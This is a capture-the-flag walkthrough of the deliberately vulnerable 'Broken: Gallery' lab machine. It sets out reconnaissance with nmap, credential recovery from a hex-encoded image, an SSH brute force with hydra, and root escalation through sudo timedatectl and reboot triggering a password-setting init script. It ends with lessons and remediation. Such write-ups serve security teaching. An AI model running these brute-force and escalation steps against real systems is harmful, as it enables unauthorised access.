



# Broken: Gallery — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.107 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | Gain root access |
| **Source** | [HackingArticles](https://www.hackingarticles.in/broken-gallery-vulnhub-walkthrough/) |

## Attack Summary

Decode a hex string from `README.md` to reveal a JPEG image containing SSH credentials, log in as `broken` over SSH, discover a password-policy init script in `.bash_history`, manipulate the system time with `sudo timedatectl` to trigger the script's date condition, reboot, and then switch to root with the newly-set password.

## Methodology

1. Reconnaissance (netdiscover + nmap)
2. Enumeration (HTTP — file download, hex decoding, steganography)
3. Exploitation (SSH brute-force or image-based credential discovery)
4. Privilege escalation (sudo timedatectl + init script abuse)

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target identified at **192.168.1.107**.

## Step 2: Reconnaissance

```bash
nmap -A 192.168.1.107
```



Open ports:

| Port | Service |
|------|---------|
| 22   | OpenSSH |
| 80   | Apache HTTP |

## Step 3: Web Enumeration

Browse to `http://192.168.1.107/`. The gallery page exposes several downloadable files including a `README.md`.

Download `README.md` and inspect it:

```bash
wget http://192.168.1.107/README.md
cat README.md
```

The file contains a long hex string. Decode it to a binary file:

```bash
cat README.md | xxd -r -p > decoded.jpg
file decoded.jpg
# JPEG image data
```

Open the JPEG. It contains the SSH credentials for user `broken`.


### Alternative: SSH Brute Force

If the image method is not used, build wordlists from the filenames on the gallery page and brute-force SSH:

```bash
hydra -L users.txt -P passwords.txt 192.168.1.107 ssh
```

Either method yields: `broken:<password_from_image>`

## Step 4: Initial Access via SSH

```bash
ssh broken@192.168.1.107
```

Check sudo rights immediately:

```bash
sudo -l
# User broken may run:
#   (root) NOPASSWD: /bin/timedatectl
#   (root) NOPASSWD: /sbin/reboot
```


## Step 5: Discover the Password-Policy Script

Inspect bash history:

```bash
cat ~/.bash_history
```

A reference to `/etc/init.d/password-policy.sh` appears. Read it:

```bash
cat /etc/init.d/password-policy.sh
```

The script changes the root password when the system date matches a specific condition:

```bash
# Relevant logic:
if [ "$(date +%Y-%m-%d %H:%M:%S)" == "2015-11-20 16:14:50" ]; then
    echo "root:TodayIsAgoodDay" | chpasswd
fi
```

The target timestamp is **2015-11-20 16:14:50**.

## Step 6: Privilege Escalation — Trigger the Init Script

Set the system time to match the script's condition:

```bash
sudo timedatectl set-time '2015-11-20 16:14:50'
```

Reboot to execute the init scripts:

```bash
sudo /sbin/reboot
```



## Step 7: Root Access

After the machine reboots, reconnect via SSH as `broken` and switch to root:

```bash
ssh broken@192.168.1.107
su root
# Password: TodayIsAgoodDay
```

```bash
id
# uid=0(root) gid=0(root)
```



## Lessons Learned

1. Credentials embedded inside media files (even hex-encoded in a text file) are still credentials — treat them like plaintext.
2. Granting `sudo timedatectl` to an unprivileged user allows time-based security conditions to be trivially bypassed.
3. Init scripts that change passwords based on a date/time condition are an insecure pattern; avoid them entirely.
4. `.bash_history` is a gold mine for forensics and privilege escalation paths — attackers always check it.
5. The `reboot` capability in sudo gives effective control over init scripts that run as root at startup.

## Remediation

| Vulnerability | Fix |
|---|---|
| Credentials in hex-encoded media | Store credentials in a secrets manager; never embed them in files served over HTTP |
| Sudo timedatectl (time manipulation) | Remove unnecessary sudo rules; restrict time changes to admins |
| Sudo reboot | Remove from sudo unless absolutely required; log all reboots |
| Password-changing init script | Remove time-triggered password changes; use proper PAM-based policy |
| Bash history disclosure | Clear history for service accounts; restrict read permissions on `.bash_history` |
